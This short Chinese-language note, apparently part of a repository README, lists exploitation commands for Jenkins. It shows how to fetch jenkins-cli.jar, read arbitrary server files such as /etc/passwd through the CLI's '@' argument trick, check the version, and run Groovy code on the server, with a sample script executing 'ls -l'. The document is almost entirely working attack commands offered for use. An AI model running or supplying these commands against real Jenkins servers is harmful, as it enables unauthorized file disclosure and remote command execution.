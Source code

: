 ## 一些利用命令
- 如何获得jenkins-cli.jar？ 
`从Jenkins的系统中去下载，http://127.0.0.1:8080/jnlpJars/jenkins-cli.jar`
- 如何获取全部文件内容？
`java -jar jenkins-cli.jar -s http://127.0.0.1:8080/ -auth test_2024:test_2024 -webSocket connect-node @/etc/passwd`
- 查看版本：
`java -jar jenkins-cli.jar -s http://192.168.2.110:8090 version`
- 如何通过Jenkins Cli去执行groovy代码

```
java -jar jenkins-cli.jar -s http://192.168.2.110:8090 groovy @/etc/passwd
java -jar jenkins-cli.jar -s http://192.168.2.110:8090 groovysh @/etc/passwd

挂个代理观察
java -Dhttp.proxyHost=127.0.0.1 -Dhttp.proxyPort=9999 -jar jenkins-cli.jar -s http://172.16.11.1:8081/ -webSocket -auth user:bitnami groovy = < 1.txt

1.txt中放groovy代码如下：

def command = "ls -l"
def process = command.execute()
process.waitFor()
def output = process.text
def exitCode = process.exitValue()
println "Command Output:$output"
println "Exit Code: $exitCode"
 

```
